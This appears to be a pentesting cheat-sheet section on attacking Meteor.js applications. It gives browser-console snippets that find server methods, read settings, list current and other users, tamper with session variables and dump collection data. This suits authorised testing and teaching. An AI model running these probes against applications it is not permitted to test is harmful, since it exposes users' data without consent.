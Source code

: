    ### Attacking Meteor.JS

	In Meteor.js based applications you just need your browser debugger and You can then try to call or search server methods () from your client.  
	An example to search js sources for ‘Meteor.call’.
	Just know we are interested in everyMeteor.call() function as this invokes real functions at the server using sockets.
	![meteror call functions](https://user-images.githubusercontent.com/25515871/178000804-94df1575-4bd4-4fc0-b7ff-bed0d1eb9df4.png)
	
	We can also Enumurate juicy informations. such as
		
		Meteor informations
			// Meteor version 
				Meteor.release;
			// Get settings.json public data (maybe juicy informations)
				Meteor.settings;
			// Production environment
				Meteor.isProduction;
			// Get current user informations
				Meteor.user();
			// Maybe get informations about other users
			Meteor.users.find().fetch();
			// Get meteor data
			this;

		Session variables

			// List session variables 
				Session.keys
			// Insert/Update variable 
				Session.set(‘theVariableName’, ‘newValue’);
			// Get value of a specific variable
				Session.get(‘theVariableName’);
			// Delete variable
				delete Session.keys.theVariableName;
		
		Collections 
			List collections data
				const subscriptions = _.map( Meteor.default_connection._subscriptions, sub => sub.name );
				_.each(subscriptions, sub => {
				    if ( Meteor.Collection.get(sub.toLowerCase()) ) {
					console.log(sub, Meteor.connection._stores[sub.toLowerCase()]._getCollection().find().fetch());
				    }
				});
				
			List local collections data

				_.forIn(this, (value, key) => {
				    if (this[key] && typeof this[key] === 'object' && this[key].hasOwnProperty('_collection') && this[key]._connection === null) {
					console.log(key, this[key].find().fetch());
				    };
				});
